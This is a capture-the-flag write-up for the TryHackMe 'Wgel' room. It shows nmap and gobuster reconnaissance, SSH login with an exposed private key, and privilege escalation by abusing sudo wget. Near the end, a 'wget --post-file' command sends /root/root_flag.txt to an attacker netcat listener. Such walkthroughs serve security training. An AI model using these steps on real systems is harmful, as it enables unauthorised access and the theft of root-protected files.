 <p align="center">
  <img width="120" height="120" src="images/thm_logo.png">
</p>

# 🏴‍☠️ THM - Wgel (CTF Write-up)

### 📌 Target Information
| Field       | Value            |
|------------|-----------------|
| **IP**     | `10.201.37.255` |
| **Open Ports** | `22 (SSH)` • `80 (HTTP)` |

### 🔍 Full Recon & Exploitation

```console
# Nmap Scan
sudo nmap 10.201.37.255 -sC -sV -sS
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-07 15:50 UTC
Nmap scan report for 10.201.37.255
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Web Enumeration
# Viewing page source revealed username: Jessie
gobuster dir -u http://10.201.37.255/sitemap/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
# Found Directories:
# /images/ /css/ /js/ /fonts/
# Hidden directory: /.ssh/

# SSH Key Exploitation
# Downloaded id_rsa from /.ssh/
chmod 600 id_rsa
ssh -i id_rsa jessie@10.201.37.255
# Gained shell as user 'jessie'

# User Flag Enumeration
cd ~/Documents
find / -type f -name "user*" 2>/dev/null
# Flag retrieved (hidden)

# Privilege Escalation & Root Flag
find / -type f -name "root*" 2>/dev/null
find / -type f -name "*.txt" 2>/dev/null
find /root -type f -name "flag*" 2>/dev/null
find /root -type f -name "root_flag*" 2>/dev/null
# Root flag located

# Exfiltrating Root Flag using Netcat
# On attacker machine:
nc -lvp 8989
# On victim machine:
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://<YOUR-IP>:8989
# Root flag retrieved (hidden)

